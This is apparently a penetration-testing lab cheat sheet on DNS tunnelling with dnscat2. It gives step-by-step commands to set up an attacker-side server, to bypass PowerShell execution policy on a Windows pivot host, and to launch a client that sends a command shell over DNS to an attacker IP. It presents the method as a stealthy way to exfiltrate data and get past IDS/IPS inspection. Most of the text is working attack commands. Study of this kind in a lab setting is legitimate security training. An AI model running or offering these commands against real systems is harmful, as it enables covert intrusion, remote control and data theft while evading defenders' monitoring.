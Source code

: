 -- -
Exfiltrate data over DNS. The data will be encrypted and be sent over the network as the content of a DNS TXT record. Works as a Command & Control (C2) connection. Extremely stealthy approach, should get passed IDS/IPS systems even if they try to inspect the packets sent over the network as they mostly check HTTP traffic for exfiltration.
#### Git Install - Server
Install and run server on attack host
```bash
git clone https://github.com/iagox86/dnscat2.git
cd dnscat2/server
sudo gem install bundler
sudo bundle install
```
#### Git Install - Client
In this example, we will use the powershell client. There are multiple versions/flavors.
First, download the repo:
`git clone https://github.com/lukebaggett/dnscat2-powershell.git`
Then, [[Windows|file transfer]] over the `dnscat2.ps1` script to windows pivot host. Import module into powershell:
```powershell
# open powershell with execution policy set to bypass
powershell -ep bypass

# import module
Import-Module .\dnscat2.ps1
```
#### Establish Tunnel
Start the server on the attackbox:
```bash
# This will spit out a Secret Key used for encryption and passed to the client in the below command under the -PreSharedSecret param
sudo ruby dnscat2.rb --dns host=10.10.14.18,port=53,domain=inlanefreight.local --no-cache
```
Start Client on Windows Pivot Host:
```powershell
Start-Dnscat2 -DNSserver 10.10.14.18 -Domain inlanefreight.local -PreSharedSecret 0ec04a91cd1e963f8c03ca499d589d21 -Exec cmd
```
#### Basic Interactions
Upon completion, you will get a session on the server. This lets you interact with the dnscat directly:
```bash
# pull up help menu
dnscat> ?

# open a shell on pivot host:
window -i 1

# to exit shell:
ctrl-z
```